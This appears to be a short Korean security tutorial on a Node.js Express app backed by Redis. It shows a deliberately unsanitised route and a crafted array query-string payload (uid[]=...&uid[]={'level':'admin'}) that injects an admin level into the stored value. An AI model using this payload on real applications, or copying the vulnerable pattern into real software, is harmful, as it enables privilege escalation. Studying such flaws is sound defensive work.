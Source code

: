 ### Redis 모듈 설치와 기본 설정
NodeJS에서 Redis를 사용하기 위해서는 먼저 필요한 모듈을 설치해야 한다. 아래는 기본적인 설정 예시다.
```javascript
var express = require('express');
var app = express();
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

const redis = require('redis');
const client = redis.createClient();

app.get('/init', function(req, res) {
    client.set(req.query.uid, 
        JSON.stringify({level: 'guest'}));
    res.send('ok');
});

var server = app.listen(3000, function(){
    console.log('app.listen');
});
```

### Redis Command 구조와 취약점
Redis 모듈의 Command는 두 가지 방식으로 처리된다.
1. 문자열 타입 
   ```javascript
   key, value, callback => Command(command, [key, value], callback)
   ```
2. 배열 타입 
   ```javascript
   [key, value] => Command(command, key, value)
   ```

### 취약점 익스플로잇

#### 배열 파라미터 조작
URL에서 배열 형태의 파라미터를 전달하면 의도하지 않은 값을 주입할 수 있다.  

```
http://localhost:3000/init?uid[]=test&uid[]={"level":"admin"}
```  
이렇게 전달된 파라미터는 내부적으로 다음과 같이 처리된다.
```javascript
Command("set", "test", "{'level':'admin'}")
```

#### Express.js의 쿼리스트링 파싱
1. 일반적인 배열 표현 방식
   ```
   ?q[]=get&q[]=log_info
   ```
   이렇게 하면 `log_query = ['get', 'log_info']` 형태로 파싱된다.
